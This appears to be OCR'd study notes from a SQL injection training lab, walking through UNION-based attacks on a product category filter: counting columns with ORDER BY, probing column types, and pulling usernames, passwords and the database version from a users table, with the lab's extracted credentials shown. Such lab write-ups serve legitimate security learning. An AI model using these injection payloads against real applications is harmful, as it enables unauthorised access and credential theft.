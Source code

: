 ' UNION select 'a', NULL, NULL--'
' UNION select NULL, 'a', NULL--


### lab_9. SQL injection UNION attack, retrieving data from other tables
SQL Injection - Product category filter.

End Goal - Output the usernames and passwords in the users table and login as the administrator user.

Analysis:

1) Determine # of columns that the vulnerable query is using
' order by 1--
' order by 2--
' order by 3-- -> internal server error

3-1 = 2

2) Determine the data type of the columns
select a, b from products where category='Gifts
' UNION select 'a', NULL--
' UNION select 'a', 'a'--
-> both columns are of data type string
' UNION select username, password from users--


### lab_10. SQL injection UNION attack, retrieving multiple values in a single column
SQL Injection - Product category filter

End Goal: retrieve all usernames and passwords and login as the administrator user.

Analysis:
(1) Find the number of columns that the vulnerable is using:
' order by 1-- -> not displayed on the page
' order by 2-- -> displayed on the page
' order by 3-- -> internal server error

3 - 1 = 2

(2) Find which columns contain text
' UNION SELECT 'a', NULL--
' UNION SELECT NULL, 'a'-- ->**

(3) Output data from other tables

' UNION select NULL, username from users--
' UNION select NULL, password from users--

' UNION select NULL, version()--
-> PostgreSQL 11.11 (Debian 11.11-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit

' UNION select NULL, username || '*' || password from users--

carlos*hx8lpsrznosr462ydnvh
administrator*35v95vbpktdv4c2nqgak
wiener*0qc4vtnx4o08sr5nsstf
